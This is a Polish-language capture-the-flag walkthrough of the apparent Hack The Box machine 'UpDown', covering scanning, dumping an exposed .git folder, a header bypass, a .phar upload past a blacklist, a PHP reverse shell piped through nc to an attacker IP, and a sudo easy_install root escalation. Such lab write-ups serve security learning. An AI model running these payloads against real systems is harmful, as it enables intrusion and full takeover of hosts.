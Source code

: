 ![image](https://github.com/Anogota/UpDown/assets/143951834/36327627-95c2-41f9-915f-8249f5b64dbf)Pierwszy krok to nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e1f98d7c8ba61dbf149669d701702e7 (RSA)
|   256 c21cfe1152e3d7e5f759186b68453f62 (ECDSA)
|_  256 5f6e12670a66e8e2b761bec4143ad38e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
Nic nie widzimy tutaj ciekawego. Wejdz na stronie aby zobaczy co tam sie znajduje.

![image](https://github.com/Anogota/UpDown/assets/143951834/91b4a5eb-6a57-4cbf-b6e8-8538b4022bf4)

Widzimy tutaj domene, musimy ja zapisac echo "10.10.11.177 siteisup.htb" >> /etc/hosts
Nastpnym krokiem bede vhosty, uzyjemy gobuster
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -u http://siteisup.htb/
``` 
Znalazlem tylko jedna subdomene. ```Found: dev.siteisup.htb (Status: 403) [Size: 281]``` Lecz nie mozemy wejsc, jest 403.
Nastepnie uzyejmy gobuster dir, aby znalezc ciekawe katalogi.
```
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/dev                  (Status: 301) [Size: 310] [--> http://siteisup.htb/dev/]
/index.php            (Status: 200) [Size: 1131]                              
/server-status        (Status: 403) [Size: 277]
```
Mamy cos ciekawego jest dev, ale po wejsciu na strone jest ona cala biala wiec postanowilem jeszcze raz poszukac katalogow na /dev i byl to bardzo dobry wybor.
```
/.hta                 (Status: 403) [Size: 277]
/.git/HEAD            (Status: 200) [Size: 21] 
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 0]  
/index.php            (Status: 200) [Size: 0]
```
Musimy uzyc narzedia git dumper.
```git-dumper http://siteisup.htb/dev/.git/ /dev```
Dzieki temu zrzucilo nam caly folder dev.

![image](https://github.com/Anogota/UpDown/assets/143951834/02893b1a-0ece-4387-8db9-593869e1fbe0)

Widzimy tam ciekawe pliki.
W changelog.txt widzimy cos ciekawego, co moze wskazywac na RCE

![image](https://github.com/Anogota/UpDown/assets/143951834/90ff3edc-700c-4b00-af91-0f96dea09692)

.htaccess wygladaj obiecujaco 
```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
Mozemy dodac do naszego burpa naglowe Special-dev: only4dev . Dodajemy to w proxy, match and replace rules

![image](https://github.com/Anogota/UpDown/assets/143951834/9bd351d8-8cb3-48dc-a38f-a8a4a0dfa45a)

Teraz odwiedzilem ponownie ```http://dev.siteisup.htb/``` i mamy dostep do tej strony.
Mozemy tam wgrywac pliki, w kodzie moglismy ujrzec, ze wiele plikow jest tam zablokowany miedzy innymi php,py.. etc.. dziala to na zasadzie czarnej listy, ale jako iz czarne listy sa latwe do obejscia taki i w tym przypadku, uzyjemy tutaj rozszerzenia .phar. Moglismy rowniez zobaczyc, ze te uploadowanie plikow dziala jako taki curl, wiec wiec bedziemy muslie dodac troche randomych stron aby czyms sie zajol i wykonal nam kod.

![image](https://github.com/Anogota/UpDown/assets/143951834/d1ee21d5-bf82-4e7a-b8b0-1fb25c71cdee)

Nastepnie musimy przeslac ten plik, wejsc szybko w upload zobaczymy tam jakis hash md5 i wejsc w ten katalog, zobaczymy tam nasz test.phar ktory przekieruje nas na infophp
Przeanalizowalem sobie to wszystko i mozna tam zobaczyc wiele funkcji popularnych w reverse-shell

![image](https://github.com/Anogota/UpDown/assets/143951834/b7a99c90-f460-4f24-96a2-c60d25638b40)

Ale jest jedna, ktora pomoze nam wykonac RCE, znalazlem to na tej stronie 
```

<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.13 9001 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
Musimy tylko tam troszke pozmieniac, bo na stronie ten shell wyglada troszke inaczej, teraz musimy wlaczyc nc i przeslac tego shell'a. Rozejrzalem sie troszke po stronie w katalogu dev znajduje sie siteisup, mozemy dzieki temu eskalowac z www-data do developer i uzyskac klucz ssh

![image](https://github.com/Anogota/UpDown/assets/143951834/dc92955b-e49f-4460-98a4-6e49fb18cb34)

Wystarczy nadac odpowiednie uprawienia kluczowi oraz go zapisac i dzieki temu uzyskamy dostep SSH do developer

![image](https://github.com/Anogota/UpDown/assets/143951834/dab9c6aa-3337-4608-8644-0b3d7b126f00)

Teraz juz jest z gorki aby uzyskac root'a, wpisujac sudo -l widziemy ```(ALL) NOPASSWD: /usr/local/bin/easy_install``` mozemy easy_install znalezc na gtfobins.
```
    TF=$(mktemp -d)
    echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    sudo easy_install $TF
```
I dzieki temu mamy root'a

![image](https://github.com/Anogota/UpDown/assets/143951834/82508482-3584-4d31-b16e-a92440577986)
